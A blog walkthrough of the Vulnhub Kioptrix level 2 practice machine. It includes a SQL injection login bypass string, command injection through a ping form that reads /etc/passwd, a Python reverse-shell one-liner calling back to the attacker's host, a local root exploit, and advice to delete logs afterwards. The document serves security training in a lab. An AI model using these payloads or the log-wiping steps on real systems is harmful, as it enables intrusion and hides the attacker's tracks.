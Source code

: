 ```yaml
---
layout: post
title: "Vulnhub: Kioptrix level 2 Walkthrough"
subtitle: "Difficulty: Simple"
# cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [Vulnhub, Kioptrix, level 2,walkthrough]
---
```


Hi Folks...
Before moving forward, please try harder and come back later. Still you are stuck then let's get started.

## Objective
Gain the root access.

## Algorithm
- Locate the target machine : Host Discovery
- Find the entry points : Enumeration
- Gain access to the machine : Finding vulnerability and exploitation
- Escalate the privileges : Privilege Escalation
- Clean up : Post-Exploitation

#### Host Discovery
Generally we know the target IP address. Since lab is set up as internal network and addresses are assigned by DHCP server. We need to find the target IP address. Host IP address is ```10.10.10.2```. Using netdiscover we found the target IP i.e., ```10.10.10.4```.
```bash
sudo netdiscover -r 10.10.10.1/24
```
![sudo netdiscover -r \<ip-range\>](/assets/img/vulnhub/kioptrix/lvl2/kioptrix_lvl2_host_discovery.png "Host Discovery using netdiscover")

#### Enumeration
It is the most important step to achieve our objective. More the information about the target more the possibilities of attack vectors. Quick nmap scan reveals the information about the various common services running on the target.
```bash
nmap --vv -sV -sC -A -T5 -oN nmap_fast 10.10.10.4
```
![nmap results](/assets/img/vulnhub/kioptrix/lvl2/nmap-1.png "nmap scan")

![nmap results](/assets/img/vulnhub/kioptrix/lvl2/nmap-2.png "nmap scan")


#### Finding vulnerability and exploitation
First question comes in mind is which services is to enumerate next such that we find the vulnerability ASAP. There is no particular answer to this. Enumerating the services simultaneouly could be good start. Our main objective should be getting as much as information possible. Let's enumerate the http (80) & https(443).
On visiting a url (http://10.10.10.4) we got the login page. In the subterminal, run the gobuster (dirb/dirbuster) and nikto. While we visit a url, in the meantime we will list the directories and scan the webserver for vulnerabilities in case we do not find anything by just exploring login page.
```bash
firefox 10.10.10.4 &
```
![login page](/assets/img/vulnhub/kioptrix/lvl2/login-page.png "Login Page")

By seeing login page, several ideas come into mind - SQL Injection, directory traversal, LFI, RFI, brute forcing the credentials, basically web-based vulnerabilities.
Let's try SQL Injection. On several attempts, provide crafted usernames and password e.g. username:```anything``` password:```' or '1'='1```.
```bash
' or '1'='1
```
One might think how we directly come up with this set of credentials. 
> Answer is Practise! Practise! Practise! And Gathering the results. It's like dynamic programming in algorithm. Whatever valuable you find, store and reuse it.

Eureka!! We bypassed the authentication, using SQL Injection and landed on Administrative Web Console.
![Administrative Web Console](/assets/img/vulnhub/kioptrix/lvl2/admin-page.png "Administrative Web Console")

As a normal admin user, we get the ping results on inputing the IP address (of the host). Next questions should be is it only intended for ping? Because we see the IP-address (whatever input we provide) in the result.

![Ping result](/assets/img/vulnhub/kioptrix/lvl2/ping-result.png "Ping Result")

Let's try to provide different input e.g. ```cat /etc/passwd```. We are not getting anything apart from command echo. What exactly we are performing!!! Application is intended to execute the ping command,right? What about executing that command and then executing other command. Let's check that out. Our input will be
```bash
10.10.10.2; cat /etc/passwd
```
Hurray!!! We got the command execution. Even we can skip the IP-address like ;cat /etc/passwd would suffice.
![Command Execution](/assets/img/vulnhub/kioptrix/lvl2/ping-result-2.png "Command Execution")

Next obvious question should be How can we get the remote shell? netttcaattt! On further exploration, we did not find nc, ```;ls /usr/bin | grep nc```. wget is installed on the target. We can download the nc from the host and get the revese shell. Another approach would be getting reverse shell using python as python is installed on most of the linux based system. We confirmed this by checking the python binaries, ```;ls /usr/bin | grep python```. Here is our command for reverse shell using python.
```python2
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.2",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Please do not forget to change the Host IP-Address and listening Port.
Do we need to remember this command? Hell, No. Our ninja techinque will help us. "Katon: Gōkakyū no Jutsu" --> ```Google-fu```.  Note: No need to worry about "Katon: Gōkakyū no Jutsu". It is intended for anime fan #Naruto.

Before executing the command start the listener on the host.
```bash
nc -lnvp 8888
```
Now we are good to go. Provide the python one-liner in input field of Administrative Web Console. Hurray!!! We got the shell. It might be a lot to grasp. Let's take a 5 min break and proceed with our next task.

#### Privilege Escalation
There are different ways to achive this based on the information we obtain about the target. For example, looking scheduled task (cron jobs), file permissions, SUID bits, kernal exploits etc,.  
Let's explore little bit, before finding possible approach for escalation.

![System Info](/assets/img/vulnhub/kioptrix/lvl2/system-info.png "Target Information")

System is running on cent OS 4.5. Let's find whether there is any attack vector using searchsploit.

![Exploit](/assets/img/vulnhub/kioptrix/lvl2/exploit.png "Exploit")

It does satisfy the requirement. Transfer the .c file to the target and compile it. How do transfer and compile? It is easy, if not I recommend you to use the ninja technique. I'll leave that to you. We have named pwn as our compiled file. Run the exploit. Hurray!!!! WE GOT THE ROOT.

![Pwned](/assets/img/vulnhub/kioptrix/lvl2/root.png "Pwned")


#### Post-Exploitation

This step involves the removal of footprints.
- Delete the downloaded .c and compiled (object) file.
- Delete the necessary logs (history, apache logs etc)

Note: Whenever we download any file, it is recommended to perform under /tmp/ directory. Since it's contents get deleted on reboot.

### Until next time! Keep Learning And Never give up! 
That should be your nindo.

